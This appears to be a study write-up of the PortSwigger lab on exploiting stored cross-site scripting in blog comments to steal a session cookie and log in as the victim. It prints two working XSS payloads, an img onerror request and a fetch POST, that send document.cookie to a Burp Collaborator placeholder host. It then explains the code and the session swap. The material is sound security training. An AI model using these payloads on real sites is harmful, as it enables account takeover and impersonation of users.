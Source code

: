 You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

### In practice, this approach has some significant limitations:
- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.

## Steps to solve lab
### Title - Exploiting cross-site scripting to steal cookies
**Desc** - This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

**Our end goal** - To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

1. Analyze the page and as per the lab description there is a vulnerability in the blog comments function.
![[XSS93.png]]

![[XSS94.png]]
As you can see above, our tag is not sanitized it means we can execute javascript.

2. Now, copy the below payload and paste it into the "comment" box.

**Payload** - 
```jsx
<img src=x onerror=this.src='https://BURP-COLLABORATOR-SUBDOMAIN/?'+document.cookie;>
```

Alerternatively you can also use the below payload - 
```js
<script> 
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { 
method: 'POST', 
mode: 'no-cors', 
body:document.cookie 
}); 
</script>
```

**Explaination to above code** - 

1. `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {...});`: 
	- This line initiates an HTTP request to the URL `'https://BURP-COLLABORATOR-SUBDOMAIN'`. Replace `'https://BURP-COLLABORATOR-SUBDOMAIN'` with the actual URL you want to target. This URL is where the data will be sent.

2. `method: 'POST'`:
	- This specifies the HTTP request method as POST. In the context of web requests, a POST request is often used to send data to a server.

3. `mode: 'no-cors'`:
	- This sets the request mode to 'no-cors'. The 'no-cors' mode is used for requests where you do not need to access the response from the server, and it's mainly used to avoid certain security restrictions, such as the same-origin policy.
	- However, it also means that you won't be able to access the response from the server, including any error messages.

4. `body: document.cookie`:
	- This sets the body of the POST request to the value of `document.cookie`.
	- In JavaScript, `document.cookie` represents the cookies associated with the current webpage. By including `document.cookie` in the request body, you are essentially sending the user's cookies to the specified URL.



![[XSS95.png]]

![[XSS96.png]]
There is a mistake above regarding img tag but you should close the img tag.

![[XSS97.png]]
As you can see above, we got the session of the victim. It means, it is that user that viewed our comment on the blog and we successfully steal the cookie of that user.

**In burp collaborator** -
![[XSS98.png]]

3. Now, intercept the `/myaccount` request and replace your session with the session that get in the burp collaborator.
![[XSS99.png]]
Forward the request and you see that now you logged in as admin 
![[XSS100.png]]

For better understanding visit --> [[Exploiting Cross-site Scripting to Steal Cookies Without Collaborator.mp4]]